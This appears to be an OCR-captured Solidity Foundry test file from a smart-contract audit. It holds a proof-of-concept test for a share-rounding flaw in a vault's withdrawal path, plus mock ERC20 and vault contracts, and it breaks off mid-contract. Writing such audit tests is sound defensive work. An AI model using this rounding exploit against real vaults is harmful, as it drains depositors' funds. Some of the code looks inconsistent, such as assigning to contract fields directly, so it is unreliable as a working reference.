 ```solidity
        vm.prank(user);
        token.mint(user, 1000e18);
        vm.prank(user);
        token.approve(address(valueFacet), type(uint256).max);
        vm.prank(user);
        token.mint(address(underlyingVault), 1000e18);

        // Simulate adding liquidity
        vm.prank(user);
        uint128 value = 1000e18;
        uint128 bgtValue = 0;
        valueFacet.addValue(user, cid, value, bgtValue);
    }

    function test_withdraw_rounding_vulnerability() public {
        // Setup: totalShares = 1000e18, totalAssets = 1000e18
        VaultTemp memory temp;
        temp.vars[0] = 1000e18; // totalAssets
        temp.vars[3] = 1 << 128; // Fee factor
        vault.totalShares = 1000e18;
        vault.shares[closureId] = 1000e18;

        // Withdraw 999e18 + 1 wei (fractional amount)
        uint256 amount = 999e18 + 1;
        uint256 expectedShares = (amount * vault.totalShares + vault.totalAssets() - 1) / vault.totalAssets(); // Round up: 999e18 + 1
        uint256 initialShares = vault.shares[closureId];

        // Simulate removeValue
        vm.prank(user);
        valueFacet.removeValue(user, cid, uint128(amount), 0);

        // Check: Fewer shares burned due to rounding down
        uint256 sharesBurned = initialShares - vault.shares[closureId];
        assertLt(sharesBurned, expectedShares, "Shares not rounded down");
        assertEq(sharesBurned, 999e18, "Incorrect shares burned");

        // Verify: User received full amount, vault shortchanged
        assertEq(token.balanceOf(user), amount, "User received excess assets");
    }
}

contract MockERC20 is ERC20 {
    uint8 private _decimals;

    constructor(string memory name, string memory symbol, uint8 decimals) ERC20(name, symbol) {
        _decimals = decimals;
    }

    function decimals() public view override returns (uint8) {
        return _decimals;
    }

    function mint(address to, uint256 amount) public {
        _mint(to, amount);
    }
}

contract MockVault is IERC4626 {
    IERC20 public asset;
    uint256 public totalAssets;
    uint256 public totalShares;

```